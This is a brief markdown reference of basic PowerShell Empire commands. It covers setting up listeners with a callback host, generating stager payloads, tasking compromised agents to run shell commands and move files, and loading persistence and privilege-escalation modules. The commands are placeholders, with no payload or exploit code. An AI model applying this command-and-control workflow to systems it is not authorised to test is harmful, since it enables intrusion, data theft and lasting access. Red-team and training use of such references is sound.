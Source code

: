 # PowerShell Empire: Basic Commands Reference

## Overview

PowerShell Empire is a post-exploitation framework that provides agents for command and control, primarily using PowerShell.

## Listener Management

### View Listeners
- `listeners` – List all active listeners.

### Create Listener
- `uselistener [type]` – Select a listener module.
  - Example: `uselistener http`
- `set Name [name]` – Set listener name.
- `set Host http://[IP]:[PORT]` – Set callback URL.
- `execute` – Start the listener.

### Delete Listener
- `kill [name]` – Stop and remove a listener.

## Stagers

### View Stagers
- `usestager [type]` – Use a stager module (e.g., `windows/launcher_bat`).
- `set Listener [name]` – Link to a running listener.
- `execute` – Generate the stager payload.

## Agents

### View Active Agents
- `agents` – List all active agents.

### Interact with an Agent
- `interact [agent_name]` – Enter an agent session.

### Task Agent
Once inside an agent session:
- `shell [command]` – Run a shell command.
- `ps` – List processes.
- `pwd` – Print working directory.
- `ls` – List files.

### Upload / Download
- `upload [local]` – Upload file to the target.
- `download [remote]` – Download file from the target.

### Persistence & Priv Esc
- `usemodule persistence/...` – Use a persistence module.
- `usemodule privesc/...` – Use a privilege escalation module.
- `info` – Show info about the selected module.
- `set [option] [value]` – Set required options.
- `execute` – Run the module.

### Kill Agent
- `kill [agent_name]` – Terminate the agent session.

## Notes
- Use `help` at any prompt to list available commands.
- Modules are organized under categories like `recon`, `privesc`, `lateral_movement`, etc.
- Empire requires Python and PowerShell support on the target system.
